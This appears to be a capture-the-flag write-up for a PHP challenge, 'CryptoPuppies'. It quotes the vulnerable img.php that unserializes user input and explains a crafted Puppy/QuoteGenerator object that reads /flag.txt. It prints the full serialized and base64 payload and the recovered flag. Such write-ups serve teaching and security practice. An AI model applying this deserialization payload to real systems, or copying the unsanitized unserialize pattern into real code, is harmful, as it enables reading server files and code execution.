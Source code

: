# CryptoPuppies
The challenge CryptoPuppies is one on serialization.
The goal of the exploit is to create a serialized object that, once de-serialized in the server, executes arbitrary instructions.

## Vulnerability
The vulnerability is located in ```src/img.php```. 
```php
<?php
include 'data.php';

$b64puppy = $_GET['puppy'];
// decode
$puppy = base64_decode($b64puppy);
$puppy = unserialize($puppy);
$puppy->getImg();
?>
```
This php code de-serializes the object in input without sanitizing it. 
Therefore, arbitrary code can be executed, thanks to the call to getImg().

## Exploit
In the attached file ```crypto_exploit.php```, an object of the class Puppy is created.
The ```__construct``` is modified to take for input a string, that then uses as quote.
Also, a custom QuoteGenerator class is used, and has as path of the file of the quotes, the one that contains the flag. 
It then still picks a random one - although there is only one in the file - and then prints it on the image.

This object is then declared, serialized and then the base64 representation is echoed.

The code is then compiled using a PHP compiler/interpreter, and the output is submitted in the website. 
The flag is printed on the image.

### Object
```
O:5:"Puppy":4:{s:8:"eyeColor";a:3:{i:0;i:28;i:1;i:160;i:2;i:131;}s:7:"eyeSize";i:57;s:10:"background";a:3:{i:0;i:235;i:1;i:89;i:2;i:233;}s:5:"quote";O:14:"QuoteGenerator":1:{s:9:"quoteFile";s:9:"/flag.txt";}}Tzo1OiJQdXBweSI6NDp7czo4OiJleWVDb2xvciI7YTozOntpOjA7aToyODtpOjE7aToxNjA7aToyO2k6MTMxO31zOjc6ImV5ZVNpemUiO2k6NTc7czoxMDoiYmFja2dyb3VuZCI7YTozOntpOjA7aToyMzU7aToxO2k6ODk7aToyO2k6MjMzO31zOjU6InF1b3RlIjtPOjE0OiJRdW90ZUdlbmVyYXRvciI6MTp7czo5OiJxdW90ZUZpbGUiO3M6OToiL2ZsYWcudHh0Ijt9fQ==
```

### Flag
flag{what_a_nice_puppy_you_got!You_can_bring_him_home_now}